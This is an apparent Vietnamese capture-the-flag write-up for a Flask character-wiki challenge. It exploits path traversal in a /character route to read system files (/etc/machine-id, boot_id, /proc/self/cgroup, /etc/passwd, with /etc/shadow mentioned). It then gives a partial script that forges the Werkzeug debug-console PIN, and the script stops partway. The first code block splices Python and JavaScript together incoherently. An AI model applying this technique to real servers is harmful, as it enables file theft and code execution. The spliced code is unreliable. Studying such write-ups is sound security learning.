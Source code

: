 ```python  
    return render_template("character.html", data=data)

if __name__ == "__main__":
    app.run("0.0.0.0", 3000, debug=True);
    document.title = `${character.name} | Genshin Impact - Wikipedia`;
    document.querySelector("#img").src = character.img;
    document.querySelector("#name").innerText = character.name;
    document.querySelector("#title").innerText = character.title;
    document.querySelector("#intro").innerText = character.intro;
    document.querySelector("#personality").innerText = character.personality;  
```
Dễ dàng thấy lỗi `Path traversal` ở route `/character`  
```python
@app.route("/character")
def character():
    slug = request.args.get("name")
    with open("characters/" + slug, "r") as f:
        data = f.read()
    if flag in data: # Vì bị check chổ này nên ta không thể đọc được flag một cách dễ dàng được :((
        return "No flag for you! Checkmate!"
    return render_template("character.html", data=data)
```  
Vì options `debug=True` được mở, nên có thể dễ dàng check được rằng là route `/console` đang được bật, nhưng cần phải có `PIN code`. Giờ việc cần làm là gen lại được cái `PIN code` đấy để có thể đọc flag.  
  
Code gen pin:
```python
import hashlib 
from itertools import chain
import os
import getpass

pin = None
rv = None
num = None

probably_public_bits = [ 
  'root' , # Vì deloy bằng docker nên ta có thể đoán được, hoặc đọc file /etc/passwd và có thể confirm rằng ta có thể đọc /etc/shadow qua Path traversal 
  'flask.app' , # modname Always the same 
  'Flask' , # Always the same
  '/usr/local/lib/python2.7/dist-packages/flask/app.pyc' # getattr(mod, '__file__', None) => Cái này các bạn tự deloy rồi kiểm tra nhé  
]
# PIN = 336-514-623  

def _generate():
    linux = b""
    for filename in "./machine-id.txt", "./boot_id.txt": # machine-id.txt từ /etc/machine-id (có thể có hoặc không) và bood_id lấy từ /proc/sys/kernel/random/boot_id
        try:
            with open(filename, "rb") as f:
                value = f.readline().strip()
        except IOError:
            continue

        if value:
            linux += value
            break
    try:
        with open("./cgroup.txt", "rb") as f: # file cgroup.txt lấy từ /proc/self/cgroup
            linux += f.readline().strip().rpartition(b"/")[2]
    except IOError:
```